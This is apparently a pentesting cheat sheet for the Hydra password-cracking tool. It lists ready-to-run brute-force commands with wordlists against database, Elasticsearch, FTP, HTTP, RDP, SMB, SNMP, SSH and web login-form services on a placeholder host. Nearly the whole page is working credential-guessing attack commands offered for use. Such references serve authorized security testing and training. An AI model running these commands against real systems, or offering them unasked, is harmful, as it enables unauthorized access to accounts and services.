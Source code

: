 ```yaml
---
title: Hydra
desc: Cracks username and password in web form, SSH, FTP.
tags: [BruteForce, Cryptography, Database, Elasticsearch, FTP, Linux, Password, RDP, SMB, SNMP, SSH, Web]
alts: [CrackStation, Hashcat, JohnTheRipper, Wfuzz]
website:
render_with_liquid: false
---
```


## Databases

```sh
# MySQL
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.1 mysql

# PostgreSQL
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.1 postgres
```

<br />

## Elasticsearch

```sh
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst 10.0.0.1 -s 9200 http-get /
```

<br />

## FTP

```sh
# Crack password
hydra -l username -P passwords.txt ftp://10.0.0.1
```

<br />

## HTTP GET Request (Authorization, WWW-Authenticate)

```sh
# Crack username and password
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/seclists/Passwords/darkc0de.txt 10.0.0.1 http-get
```

<br />

## RDP (Remote Desktoop Protocol)

```sh
hydra -l username -P /usr/share/wordlists/rockyou.txt 10.0.0.1 rdp
```

<br />

## SMB

```sh
# Crack username
hydra -v -L /usr/share/seclists/Usernames/Names/names.txt -p password 10.0.0.1 smb

# Crack password
hydra -v -l username -P /usr/share/seclists/Passwords/darkc0de.txt 10.0.0.1 smb
```

<br />

## SNMP (Simple Network Management Protocol)

```sh
# Brute Force Community
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt 10.0.0.1 snmp
```

<br />

## SSH

```sh
# Crack username
hydra -v -L /usr/share/seclists/Usernames/Names/names.txt -p password 10.0.0.1 ssh

# Crack password
hydra -v -l username -P /usr/share/seclists/Passwords/darkc0de.txt 10.0.0.1 ssh

# Specify port
hydra -l username -P /usr/share/wordlists/rockyou.txt -s 2222 10.0.0.1 ssh
hydra -l username -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.1:2222
```

<br />

## Web Form

```sh
# Crack username
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p secret 10.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:incorrect"

# Crack password
hydra -l username -P /usr/share/wordlists/rockyou.txt 10.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:incorrect"


# For HTTPS
hydra -l username -P passwords.txt 10.0.0.1 https-post-form "/login:username=^USER^&password=^PASS^:incorrect"
```
